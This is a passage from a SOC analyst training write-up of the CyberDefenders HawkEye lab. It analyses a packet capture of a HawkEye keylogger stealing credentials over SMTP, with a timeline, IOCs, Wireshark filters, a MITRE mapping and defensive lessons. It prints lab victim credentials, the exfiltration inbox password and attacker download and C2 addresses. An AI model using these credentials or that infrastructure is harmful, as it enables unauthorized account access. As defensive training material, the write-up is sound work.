**HawkEye Reborn v9** is a commodity RAT/keylogger sold on underground forums, targeting credential stores in browsers and email clients.

### Answer

```
Reborn v9
```


---

## Question 23 — What are the Bank of America access credentials?

### Investigation

Following the SMTP data stream and Base64-decoding the email body via CyberChef (`From Base64`), the exfiltrated payload contained a structured credential log:

```
[Bank Of America]
URL: https://www.bankofamerica.com/
Username: roman.mcguire
Password: P@ssw0rd$
Source: Google Chrome
```

⚠️ **Critical Finding:** The victim reused the same password `P@ssw0rd$` across Bank of America, AOL personal email, and the PizzaJukebox corporate Active Directory account.

### Answer

```
roman.mcguire:P@ssw0rd$
```


---

## Question 24 — Every how many minutes does data get exfiltrated?

### Investigation

The exfiltration interval was calculated by comparing the timestamps of the first and second SMTP `220` server welcome banners:

| Event | Frame | Timestamp (relative) |
|---|---|---|
| First SMTP session | 3175 | 69 seconds |
| Second SMTP session | 3306 | 673 seconds |

```
Interval = 673s - 69s = 604 seconds ≈ 10 minutes
```

The HawkEye keylogger is hardcoded to exfiltrate collected data exactly every **10 minutes**.

### Answer

```
10
```

---

## Full Attack Timeline

| Timestamp (UTC) | Event |
|---|---|
| 22:37:07 | PCAP capture begins |
| 22:37:53 | DNS query for `proforma-invoices.com` from `10.4.10.132` |
| 22:37:54 | DNS resolves → `217.182.138.150` |
| 22:37:54 | HTTP GET `/proforma/tkraw_Protected99.exe` |
| 22:38:08 | Malware contacts `bot.whatismyipaddress.com` → public IP: `173.66.146.112` |
| 22:38:15 | **First SMTP exfiltration** → `23.229.162.69:587` |
| 22:48:19 | **Second SMTP exfiltration** (+10 minutes, 604 seconds later) |
| 23:40:48 | PCAP capture ends |

---

## Recovered Stolen Credentials

| Account | URL | Username | Password | Source |
|---|---|---|---|---|
| Bank of America | `bankofamerica.com` | `roman.mcguire` | `P@ssw0rd$` | Google Chrome |
| AOL Email | `login.aol.com` | `roman.mcguire914@aol.com` | `P@ssw0rd$` | Internet Explorer |
| PizzaJukebox AD | `roman.mcguire@pizzajukebox.com` | `roman.mcguire` | `P@ssw0rd$` | MS Outlook |

**POP3 Server:** `pop.pizzajukebox.com:995`  
**SMTP Server:** `smtp.pizzajukebox.com:587`

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Domain | `proforma-invoices.com` | Malware hosting domain |
| IP | `217.182.138.150` | Payload server (France, OVH SAS) |
| IP | `23.229.162.69` | SMTP exfiltration server (GoDaddy, US) |
| Domain | `bot.whatismyipaddress.com` | Public IP discovery service |
| File | `tkraw_Protected99.exe` | HawkEye Reborn v9 dropper |
| MD5 | `71826ba081e303866ce2a2534491a2f7` | Malware hash |
| Path | `%APPDATA%\winlogons\winlogons.exe` | Persistence binary |
| Path | `%APPDATA%\winlogons\winlogons.vbs` | Persistence VBScript |
| Path | `...\Startup\winlogons.url` | Startup shortcut |
| Email | `sales.del@macwinlogistics.in` | Compromised C2 exfiltration inbox |
| Credential | `Sales@23` | SMTP auth password (Base64: `U2FsZXNAMjM=`) |
| Victim IP | `10.4.10.132` | Victim workstation (internal) |
| Public IP | `173.66.146.112` | Victim public IP |
| MAC | `00:08:02:1c:47:ae` | Victim NIC (Hewlett-Packard) |

---

## Key Wireshark Filters Reference

```
-- DNS query for malicious domain
dns.qry.name contains "proforma"

-- Malware download
http.request.method == "GET" && ip.dst == 217.182.138.150

-- IP discovery
http.host contains "whatismyipaddress"

-- SMTP exfiltration sessions
smtp

-- Full SMTP stream (follow TCP stream on port 587 connection)
tcp.port == 587

-- All attacker infrastructure traffic
ip.addr == 217.182.138.150 || ip.addr == 23.229.162.69
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.002 | Phishing: Spearphishing Link |
| Execution | T1204.002 | User Execution: Malicious File |
| Defense Evasion | T1027 | Obfuscated Files or Information (ConfuserEx) |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name (winlogons) |
| Persistence | T1547.001 | Boot/Logon Autostart: Startup Folder |
| Discovery | T1016 | System Network Configuration (IP check) |
| Discovery | T1057 | Process Discovery (WMI queries) |
| Credential Access | T1555.003 | Credentials from Web Browsers (Chrome, IE) |
| Credential Access | T1552.001 | Unsecured Credentials: Email Credentials (Outlook) |
| Collection | T1056.001 | Keylogging |
| Command & Control | T1071.003 | Mail Protocols (SMTP C2) |
| Exfiltration | T1048.003 | Exfiltration Over Alternative Protocol (SMTP) |

---

## Lessons Learned

1. **Password reuse is catastrophic** — A single stolen password (`P@ssw0rd$`) gave the attacker access to banking, personal email, and corporate AD simultaneously. Enforce unique passwords and MFA on all accounts.
2. **Block invoice-themed phishing** — Email gateways should sandbox all executable attachments and block domains with low reputation or newly registered status.
3. **Monitor outbound SMTP on port 587** — Workstations should never initiate SMTP connections to external mail servers. Alert on any process other than approved email clients connecting to port 587.
4. **LiteSpeed server fingerprinting** — The attacker's infrastructure used LiteSpeed — blocking known malware-hosting ASNs (like OVH SAS ranges) can reduce drive-by download exposure.
5. **Detect IP check behavior** — Outbound HTTP to `bot.whatismyipaddress.com` or similar services from non-browser processes is a reliable post-infection indicator.
6. **Egress filtering** — Block outbound connections to `23.229.162.69` and similar GoDaddy-hosted SMTP servers not matching the organization's approved email relay infrastructure.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: HawkEye Lab*